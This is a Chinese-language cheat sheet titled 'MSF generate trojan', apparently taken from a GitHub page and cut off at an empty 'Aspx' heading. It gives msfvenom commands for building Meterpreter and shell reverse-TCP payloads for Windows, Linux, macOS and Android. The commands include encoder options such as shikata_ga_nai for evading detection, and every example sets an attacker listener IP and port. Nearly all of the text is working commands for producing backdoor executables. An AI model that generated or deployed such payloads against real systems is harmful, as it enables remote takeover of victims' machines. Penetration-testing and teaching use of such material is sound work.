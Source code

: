 ### MSF生成木马

#### 1.普通生成

```python
msfvenom -p 有效载荷 lhost=攻击机IP lport=攻击机端口 -f 输出格式 -o 输出文件

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.1 lport=8888 -f exe -o payload.exe
```

#### 2.编码生成

```python
msfvenom -a 系统架构 --platform 系统平台 -p 有效载荷 lhost=攻击机IP lport=攻击机端口 -e 编码方式 -i编码次数 -f 输出格式 -o 输出文件

msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp lhost=192.168.1.1 lport=8888 -i 3 -e x86/shikata_ga_nai -f exe -o payload.exe
```




```bash
msfvenom --list archs 		#查看支持的系统架构
msfvenom --list platforms 	#查看支持系统平台
msfvenom -l payload 		#列出所有可用的payload
msfvenom -l formats 		#列出所有的输出格式
msfvenom -l encrypt 		#列出所有的加密方式
msfvenom -l encoders 		#列出所有的编码器
```
#### 3.常见生成格式

##### 1.Windows

```bash
msfvenom --platform windows -a x86 -p windows/meterpreter/reverse_tcp -i -e x86/shikata_ga_nai -f exe -o payload.exe
```

##### 2.Linux

```bash
msfvenom --platform linux -a x86 -p linux/x86/meterpreter/reverse_tcp -f elf -o payload.elf 
```

##### 3.Mac

```bash
msfvenom --platform osx -a x86 -p osx/x86/shell_reverse_tcp -f macho -o payload.macho   
```

##### 4.Android

```python
msfvenom -p android/meterpreter/reverse_tcp -o payload.apk 
```

##### 5.Aspx
